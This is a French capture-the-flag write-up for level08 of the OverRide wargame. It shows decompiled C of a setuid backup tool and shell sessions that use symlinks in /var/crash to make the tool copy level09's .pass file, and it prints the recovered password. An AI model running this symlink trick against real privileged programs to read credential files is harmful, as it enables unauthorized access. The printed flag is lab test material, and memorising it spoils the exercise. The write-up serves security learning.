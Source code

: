 # **Level 08**

Code decompiler,
```
void log_wrapper(FILE *param_1,char *param_2,char *param_3)

{
  char cVar1;
  size_t sVar2;
  ulong uVar3;
  ulong uVar4;
  char *pcVar5;
  long in_FS_OFFSET;
  byte bVar6;
  undefined8 local_120;
  char local_118 [264];
  long local_10;
  
  bVar6 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_120 = param_1;
  strcpy(local_118,param_2);
  uVar3 = 0xffffffffffffffff;
  pcVar5 = local_118;
  do {
    if (uVar3 == 0) break;
    uVar3 = uVar3 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (ulong)bVar6 * -2 + 1;
  } while (cVar1 != '\0');
  uVar4 = 0xffffffffffffffff;
  pcVar5 = local_118;
  do {
    if (uVar4 == 0) break;
    uVar4 = uVar4 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (ulong)bVar6 * -2 + 1;
  } while (cVar1 != '\0');
  snprintf(local_118 + (~uVar4 - 1),0xfe - (~uVar3 - 1),param_3);
  sVar2 = strcspn(local_118,"\n");
  local_118[sVar2] = '\0';
  fprintf(local_120,"LOG: %s\n",local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}



undefined8 main(int param_1,undefined8 *param_2)

{
  char cVar1;
  int __fd;
  int iVar2;
  FILE *pFVar3;
  FILE *__stream;
  ulong uVar4;
  undefined8 *puVar5;
  long in_FS_OFFSET;
  byte bVar6;
  char local_79;
  undefined8 local_78;
  undefined2 local_70;
  char local_6e;
  long local_10;
  
  bVar6 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_79 = -1;
  if (param_1 != 2) {
    printf("Usage: %s filename\n",*param_2);
  }
  pFVar3 = fopen("./backups/.log","w");
  if (pFVar3 == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n","./backups/.log");
                    // WARNING: Subroutine does not return
    exit(1);
  }
  log_wrapper(pFVar3,"Starting back up: ",param_2[1]);
  __stream = fopen((char *)param_2[1],"r");
  if (__stream == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n",param_2[1]);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  local_78._0_1_ = '.';
  local_78._1_1_ = '/';
  local_78._2_1_ = 'b';
  local_78._3_1_ = 'a';
  local_78._4_1_ = 'c';
  local_78._5_1_ = 'k';
  local_78._6_1_ = 'u';
  local_78._7_1_ = 'p';
  local_70._0_1_ = 's';
  local_70._1_1_ = '/';
  local_6e = '\0';
  uVar4 = 0xffffffffffffffff;
  puVar5 = &local_78;
  do {
    if (uVar4 == 0) break;
    uVar4 = uVar4 - 1;
    cVar1 = *(char *)puVar5;
    puVar5 = (undefined8 *)((long)puVar5 + (ulong)bVar6 * -2 + 1);
  } while (cVar1 != '\0');
  strncat((char *)&local_78,(char *)param_2[1],99 - (~uVar4 - 1));
  __fd = open((char *)&local_78,0xc1,0x1b0);
  if (__fd < 0) {
    printf("ERROR: Failed to open %s%s\n","./backups/",param_2[1]);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  while( true ) {
    iVar2 = fgetc(__stream);
    local_79 = (char)iVar2;
    if (local_79 == -1) break;
    write(__fd,&local_79,1);
  }
  log_wrapper(pFVar3,"Finished back up ",param_2[1]);
  fclose(__stream);
  close(__fd);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return 0;
}
```
En regardant dans le `dossier courant` du level08, on voit en plus de l'executable, un `dossier backups` avec un fichier .log.
en executant le code, on voit qu'il attend un fichier en argument,
```
level08@OverRide:~$ ./level08 
Usage: ./level08 filename
ERROR: Failed to open (null)
```
Si on essaye de lui passer le fichier .log en argument,
```
level08@OverRide:~$ ./level08 backups/.log 
ERROR: Failed to open ./backups/backups/.log
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: backups/.log
```
On voit qu'il ecrit quand meme dedant, essayons avec un autre fichier.
```
level08@OverRide:~$ ./level08 /var/crash/test
ERROR: Failed to open ./backups//var/crash/test
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: /var/crash/test
```
Encore une fois, l'erreur se retrouve dans le fichier .log.
En lisant le code on voit que le `premier fopen` se fait sur le fichier `.log` et ensuite sur l'`argument` passe en parametre,
Or avec les precedent test, on en conclu que le programme accepte seulement les fichier de son repertoire courant et qu'il n'aime pas les path absolu.
```
level08@OverRide:~$ cd /var/crash
level08@OverRide:/var/crash$ touch test
level08@OverRide:/var/crash$ /home/users/level08/./level08 test 
ERROR: Failed to open ./backups/.log
```
Ici on voit qu'il ne trouve pas le fichier .log.
Essayons donc depuis /var/crash d'ouvrir le fichier .log avec le programme.
Utilisons un `lien symbolique` vers le `dossier backups` et relancons le programme avec test,
```
level08@OverRide:/var/crash$ ln -s /home/users/level08/backups backups
level08@OverRide:/var/crash$ ll
total 0
drwxrwsrwt 1 root    whoopsie  80 Feb 16 13:53 ./
drwxr-xr-x 1 root    root     120 Oct  2  2016 ../
lrwxrwxrwx 1 level08 whoopsie  27 Feb 16 13:53 backups -> /home/users/level08/backups/
-rw-rw-r-- 1 level08 whoopsie   0 Feb 16 13:48 test
```
Execution,
```
level08@OverRide:/var/crash$ /home/users/level08/./level08 test 
level08@OverRide:/var/crash$ ll /home/users/level08/backups/
total 4
drwxrwx---+ 1 level09 users    80 Feb 16 13:53 ./
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ../
-rwxrwx---+ 1 level09 users    55 Feb 16 13:53 .log*
-r--r-----+ 1 level09 users     0 Feb 16 13:53 test

```
Ok, maintenant on sait comment ecrire dans le dossier backups,
Essayons donc maintenant de passer un fichier plus sensible en parametre, comme le password de level09,
toujours en passant par un `symlink`.
```
level08@OverRide:/var/crash$ ln -s /home/users/level09/.pass pass
level08@OverRide:/var/crash$ ll
total 0
drwxrwsrwt 1 root    whoopsie 100 Feb 16 13:56 ./
drwxr-xr-x 1 root    root     120 Oct  2  2016 ../
lrwxrwxrwx 1 level08 whoopsie  27 Feb 16 13:53 backups -> /home/users/level08/backups/
lrwxrwxrwx 1 level08 whoopsie  25 Feb 16 13:56 pass -> /home/users/level09/.pass
-rw-rw-r-- 1 level08 whoopsie   0 Feb 16 13:48 test
```
Ensuite, executons le programme avec le fichier pass.
```
level08@OverRide:/var/crash$ /home/users/level08/./level08 pass
level08@OverRide:/var/crash$ cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
Essayons le password,
```
level08@OverRide:/var/crash$ su level09
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```
> ### NEXT : [Level 09](/level09/resources/README.md)
